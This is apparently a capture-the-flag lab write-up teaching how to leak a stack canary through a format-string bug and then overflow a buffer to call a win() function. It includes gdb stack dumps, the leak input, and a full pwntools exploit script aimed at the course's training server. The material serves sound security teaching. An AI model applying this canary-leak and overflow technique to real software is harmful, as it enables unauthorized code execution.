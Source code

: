 ```yaml
---
description: Leaking a stack canary to allow for buffer overflows.
---
```


# canary

{% file src="../../.gitbook/assets/canary.zip" %}

This problem is the first instance where the stack protector, called the **canary** is enabled. We need to figure out how to beat that canary to perform a buffer overflow.

When we run `checksec` on the binary, we notice that the canary is enabled.

```nasm
[*] '/home/joybuzzer/Documents/vunrotc/public/binex/04-canaries/canary/src/canary'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

PIE is still disabled, meaning we can still use the same techniques we used in the previous binary. However, we can't use the same techniques to overflow the stack. Let's see what happens when we try to overflow the stack.

```nasm
$ python -c "print('A'*1000)" | ./canary
Hello, what is your name?
...
How can I help you today?
*** stack smashing detected ***: terminated
zsh: done                           python3 -c "print('A' * 1000)" | 
zsh: IOT instruction (core dumped)  ./canary
```

A **stack smashing detected** statement in the output indicates that we overwrote the canary. We need to determine how to beat the canary, and then we will proceed as usual.

### Static Analysis

It seems that our primary functions are `main`, `read_in`, and `win`.

* `win` seems only to print the contents of the flag.
* `main` immediately calls `read_in`, then has a `puts` statement. We can use `gdb` to show that reads "You lose!".

`read_in` does a list of things, so let's break it down further. Checking the arguments as we scroll through `gdb`:

*   `puts("Hello, what is your name?")`

    ```nasm
    puts@plt (
      [sp + 0x0] = 0x0804a008 → "Hello, what is your name?"
    )
    ```
*   `gets(ebp-0x4c)`

    ```nasm
    gets@plt (
     [sp + 0x0] = 0xffffd54c → 0xf7fc66d0 → 0x0000000e
    )
    ```
*   `printf(ebp-0x4c)`

    ```nasm
    printf@plt (
     [sp + 0x0] = 0xffffd54c → 0xf7006968 ("hi"?)
    )
    ```
*   `puts("How can I help you today?")`

    ```nasm
    puts@plt (
     [sp + 0x0] = 0x0804a023 → "How can I help you today?"
    )
    ```
*   `gets(ebp-0x4c)`

    ```nasm
    gets@plt (
     [sp + 0x0] = 0xffffd54c → 0xf7006968 ("hi"?)
    )
    ```

After this last check, we see that the canary check is made:

```nasm
0x08049283 <+189>:	mov    eax,DWORD PTR [ebp-0xc]
0x08049286 <+192>:	sub    eax,DWORD PTR gs:0x14
0x0804928d <+199>:	je     0x8049294 <read_in+206>
0x0804928f <+201>:	call   0x8049310 <__stack_chk_fail_local>
```

From this, we gather a few things:

* We write to the same buffer both times that we write to memory.
* The format string vulnerability in the first read means we can leak the canary.
* The existence of a second read means we can pass in a second payload that uses the canary to pass the check, then performs a buffer overflow.
* The canary is stored at `ebp-0xc`.

### Payload Part 1: Leaking the Canary

We know the canary is stored on the stack at `ebp-0xc`. We will use a format string to leak the canary to standard output and then pass that canary to the second payload.

There are two ways to find the offset on the stack that the canary is stored at:

1. Use `gdb` to set a breakpoint before the `gets` call, then count the number of DWORD frames between the stack pointer and canary.
2. Check the location of the stack pointer at the start of the `read_in` function, account for the number of operations on the stack pointer, then count the number of DWORD frames between the stack pointer and canary.

The first one is by far easier and more practical.

{% tabs %}
{% tab title="GDB" %}
```nasm
gef➤  canary
[+] The canary of process 44910 is at 0xffffd80b, value is 0x8fdba200
gef➤  x/40wx $esp
0xffffd530:	0xffffd54c	0x00000001	0xf7ffda40	0x080491d2
0xffffd540:	0xf7fc4540	0xffffffff	0x08048034	0xf7fc66d0
0xffffd550:	0xf7ffd608	0x00000020	0x00000000	0xffffd750
0xffffd560:	0x00000000	0x00000000	0x01000000	0x0000000b
0xffffd570:	0xf7fc4540	0x00000000	0xf7c184be	0xf7e2a054
0xffffd580:	0xf7fbe4a0	0xf7fd6f80	0xf7c184be	0x8fdba200
0xffffd590:	0xffffd5d0	0x0804c000	0xffffd5a8	0x080492b8
0xffffd5a0:	0xffffd5c0	0xf7e2a000	0xf7ffd020	0xf7c21519
0xffffd5b0:	0xffffd82e	0x00000070	0xf7ffd000	0xf7c21519
0xffffd5c0:	0x00000001	0xffffd674	0xffffd67c	0xffffd5e0
```
{% endtab %}

{% tab title="Radare2" %}

{% endtab %}
{% endtabs %}

`gdb` tells us that the canary is at `0xffffd80b`. If we count from our location to the canary, we see that it is 23 DWORDs away. We can verify this using the format string:

```nasm
$ ./canary
Hello, what is your name?
%23$x
6de5f500
```

This appears to work! Let's turn this into a `pwntools` script:

```python
p.recvline()
p.sendline(b'%23$x')
canary = int(p.recvline().strip(), 16)
```

### Payload Part 2: Overflowing the Buffer

Now that we have the canary, we can overflow the buffer. We need to do this in two steps:

1. Write data until we reach the canary, then write the canary to the stack (so it doesn't get modified).
2. Write data from the canary to the return pointer, then overwrite the return pointer with the address of `win()`.

We discussed earlier that the canary is stored at `ebp-0xc`. Based on the argument passed to `gets()`, we start writing at `ebp-0x4c`. This means we need to write `0x40=64` bytes of data before reaching the canary.

Our payload here could look like this:

```python
payload = b'A' * 0x40
payload += p32(canary)
```

Then, we need to write from the canary to the return pointer. The canary sits at `ebp-0xc`, and the return pointer always sits at `ebp+0x4` (because the base pointer is at `ebp+0x0`). Remember that the canary takes four bytes itself, meaning we start to write at `ebp-0x8`. This means we need to write `0xc` bytes of data to reach the return pointer.

Our payload here could look like this:

```python
payload += b'B' * 0xc
payload += p32(win)
```

{% hint style="warning" %}
#### _Why did I use "B" this time?_

I can use any value to fill the empty space. I choose to use a different value for debugging purposes. In the case that my payload is wrong, it's easier to tell if I overfilled or underfilled the buffer by using two different values.
{% endhint %}

From here, we put it all together into one large payload and send it off!

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

proc = remote('vunrotc.cole-ellis.com', 4100)

# leak the canary
payload = b'%23$p'
print(proc.recvline())
proc.sendline(payload)

# get output to store the canary
leak = proc.recvline().strip()
leak = int(leak.decode(), 16)
print(proc.recvline())

print("Canary Leaked:", hex(leak))

# build the payload with the canary
payload = b'A' * 0x40
payload += p32(leak)
payload += b'A' * 0xc
payload += p32(0x080492d9)

proc.sendline(payload)
proc.interactive()
```
{% endcode %}

Running this gets us our flag.
